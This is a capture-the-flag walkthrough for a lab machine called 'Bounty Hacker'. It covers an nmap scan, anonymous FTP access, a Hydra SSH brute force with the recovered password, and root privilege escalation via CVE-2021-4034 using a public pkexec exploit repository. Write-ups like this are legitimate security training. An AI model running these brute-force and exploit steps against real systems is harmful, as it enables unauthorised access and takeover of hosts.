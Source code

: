 # Bounty Hacker

## data

### IP

IP address: `10.10.112.50`

### NMAP

```
# Nmap 7.92 scan initiated Sun Jun 12 00:43:23 2022 as: nmap -sV -oN nmap.txt 10.10.112.50
Nmap scan report for 10.10.112.50
Host is up (0.049s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 12 00:43:36 2022 -- 1 IP address (1 host up) scanned in 13.08 seconds
```
## Probing

### Enumeration

#### Feroxbuster

nothing

#### Dirbuster



### FTP

The ftp server has anonymous login enabled, but passive mode is enabled.

Type `passive` to disable passive mode

Listing the directory contents (`ls`), The file tasks.txt is readable.
Here Lin wrote:

```
ftp> less task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt contains a bunch of passwords, with which we may be able to bruteforce ssh

## Bruteforcing ssh using Hydra

```
hydra -l lin -P locks.txt ssh://10.10.33.188
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-02 12:29:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.33.188:22/
[22][ssh] host: 10.10.33.188   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-02 12:29:30

```

password = RedDr4gonSynd1cat3

## Privesc

using ssh we can read the users.txt file. This contains the first flag. With linpeas, we discover that the target is vurnerable to 
CVE-2021-4034.

### CVE-2021-4034

This is a privesc vurnerability. The description is as follows:

```
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.
```

To use this CVE, we can use the github project https://github.com/berdav/CVE-2021-4034

1. Clone the repo on the attacker host

```bash
git clone https://github.com/berdav/CVE-2021-4034.git
```

2. Copy the repo to the target

```bash
scp -r CVE-2021-4034 lin@10.10.33.188:/home/lin
```

3. compile the repo by running the `make` command

4. run `./cve-2021-4034`

5. Read the `root.txt` flag in the `/root` folder



